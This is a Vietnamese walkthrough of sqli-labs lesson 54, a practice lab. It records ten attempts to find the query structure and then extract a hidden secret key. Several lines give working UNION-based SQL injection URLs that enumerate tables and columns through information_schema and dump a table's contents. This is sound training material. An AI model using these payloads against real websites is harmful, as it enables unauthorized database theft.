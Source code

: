 # Những việc làm được với lesson-54
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-54

![](../images/lesson54/screen_1.png)

```
The objective of this challenge is to dump the (secret key) from only random table from Database ('CHALLENGES') in Less than 10 attempts
For fun, with every reset, the challenge spawns random table name, column name, table data. Keeping it fresh at all times.
```
Ta để ý cái dòng này trong đầu bài là tìm ra dữ liệu trong bảng luôn thay đổi của DB `challenge` trong vòng 10 lần thử. 

1. Tìm cấu trúc của DB này ta sẽ tìm cấu trúc bằng các ký tự đặc biệt. 

- Lần 1 : nhập id =1. Nó đưa ra dữ liệu và ta có thể sử dụng được union nhưng ta cần tìm cấu trúc của nó 

- lần 2: Thêm ký tự đặc biệt 

```
192.168.80.225/sqli-labs/Less-54/?id=1'
```

![](../images/lesson54/screen.png)

Và ta không thấy lỗi xuất ra ta không thể sử dụng error base được. 

- Lần 3: Thêm `--+` vào cuối và ta nhận được kết quả. Theo kinh nghiệm thì đây là cấu trúc của id. `id='$id'` 

![](../images/lesson54/screen_3.png)

- Lần 4,5: Ta biết được DB là `challenges` Ta sẽ show tên của tất cả các table trong đó 

```
192.168.80.225/sqli-labs/Less-54/?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson54/screen_4.png)

- Lần 6,7 : Ta đọc tên các cột của bảng này 
```
192.168.80.225/sqli-labs/Less-54/?id=0' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='challenges' AND table_name='IW2M98E3SI'  --+
```

![](../images/lesson54/screen_5.png)

Lần 8,9: Ta đọc dữ liệu trong bảng này. 

192.168.80.225/sqli-labs/Less-54/?id=0' union SELECT group_concat(id),group_concat(sessid),group_concat(secret_DCJW) from IW2M98E3SI --+

![](../images/lesson54/screen_6.png)

Sa đó ta có được dữ liệu thì ta nhập nó vào đây 

![](../images/lesson54/screen_7.png)

![](../images/lesson54/screen_8.png)

